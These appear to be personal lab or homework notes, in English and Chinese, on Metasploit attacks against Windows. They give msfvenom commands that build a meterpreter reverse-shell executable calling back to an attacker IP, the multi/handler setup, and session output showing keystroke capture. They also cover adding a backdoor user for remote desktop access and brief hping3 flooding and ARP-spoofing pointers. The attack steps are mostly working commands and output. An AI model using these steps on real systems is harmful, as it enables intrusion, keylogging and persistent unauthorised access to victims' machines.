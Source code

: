 #### koli

```bash
* msfvenom -p windows/meterpreter/reverse_tcp LPOST LPORT L := local -f exe > finderpath/filename.exe
LHOST=<Your IP Address> LPORT=<Your Port to Connect On>
port 8888
service apache2 start > /var/www/html/ appache default local service

msfconsole windows/meterpreter/reverse_tcp
 use exploit/multi/gandler
 set payload 
 set LHOST yourip
 set lport 8888
screenshot
shell //into another shell
keyscan_start
keyscan dump
```

#### window_xp


### homework
env := msfconsole
shell
net user /add hostname password
exit

rdesktop 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.153.129 LPORT=8888 -f exe >exp.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload                                                                                                 
No encoder or badchars specified, outputting raw payload                                                                                                   
Payload size: 341 bytes                                                                                                                                    
Final size of exe file: 73802 bytes  

```bash
# service apache2 start
# service apache2 status
```


msfconsole # home root 有不同的執行畫面
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOADS windows/meterpreter/reverse_tcp
PAYLOADS => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.153.129
LHOST => 192.168.153.129
msf5 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.153.129:8888 
[*] Sending stage (180291 bytes) to 192.168.153.128
[*] Meterpreter session 1 opened (192.168.153.129:8888 -> 192.168.153.128:1044) at 2020-03-15 09:55:08 -0400

shell
meterpreter > keyscan_start 
Starting the keystroke sniffer ...
keyscan_dump 
Dumping captured keystrokes...
fuck<Right Shift>_youself<Right Shift>_hacker<Right Shift>_delete<Right Shift>_this<^H><^H><^H><^H><^H><^H><^H><^H><^H><^H><^H>add<Right Shift>_this<CR>

rdesktop -u hostname 192.168.153.128

Add User to Remote Desktop Users Group via Command Prompt

    Open up the Command Prompt as administrator.
    Type the following command and hit Enter. Replace the “UserName” with the actual user account you want to add to Remote Desktop Users group.

    net localgroup "Remote Desktop Users" "UserName" /add


如果您不是系統管理員而嘗試使用遠端桌面連線工具，可能會收到下列錯誤訊息：
這個系統的本機原則不允許您使用互動式登入。
發生的原因
如果使用者帳戶不是本機「遠端桌面使用者」群組的成員，就會發生這個問題。 

[*] 192.168.153.128 - Meterpreter session 1 closed.  Reason: Died

xrdp

metasploit 是一個 滲透測試工具，你可以用 kali linux 來使用 metasploit，也可以自行安裝 (底下)
怎麼開始呢

 

先產生惡意程式 (想辦法讓它可以被執行在某一台 Windows 上)，基本上執行 exp.exe 後它會跟 10.10.10.134:8080 連線溝通

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.134 LPORT=8080 -f exe > exp.exe

再來建置接收端，也就是 10.10.10.134 這台

進入 metasploit

msfconsole

之後輸入如下

use exploit/multi/handler
set PAYLOADS windows/meterpreter/reverse_tcp
set LHOST 10.10.10.134
set LPORT 8080
exploit

狀態會是

[*] Started reverse handler on 10.10.10.134:8080 
[*] Starting the payload handler...

然後當那台 Windows 不小心執行了 exp.exe 時

接收端這邊的狀態會是

[*] Sending stage (752128 bytes) to 10.10.10.180
[*] Meterpreter session 1 opened (10.10.10.134:8080 -> 10.10.10.180:1161) at 2015-10-07 04:16:10 +0000

接收端會呈現 meterpreter>，你就可以輸入 sysinfo，我們就得到那台 Windows 的系統資訊

Computer : XXX
OS : Windows .NET Server (Build 3790, Service Pack 2).
Architecture : x86
System Language : zh_TW
Meterpreter : x86/win32

或 help 可以查看有什麼指令可用

另外，msfvenom –help-format 也可知道其它支援的執行檔格式，比如 php、asp、perl 等等

PS: 這支 exp.exe 惡意程式基本上我的防毒軟體會抓到，所以測試時要注意


* ping 
* hping3 (need root)

> -c --flood --I -1(icmp) --rand-source mac_addr(不變動可以用ARP做查詢)

* Traceroute( if ping no responce icmp use it find early alive server)
* Default TTL (Time To Live) Values of Different OS
```
LINUX 64
WIN2K/NT 128
WINDOWS 系列 32
UNIX 系列 255
```

ICMP請求回顯（ICMP Echo Request）
ICMP回顯回應（ICMP Echo Reply）

[利用Kali Linux进行ARP欺诈（ettercap及hping3）](https://www.jianshu.com/p/148c750d38fa)
* ettercap 功能強大且有GUI

[example of hping3](https://klionsec.github.io/2017/11/15/hping3/#menu)
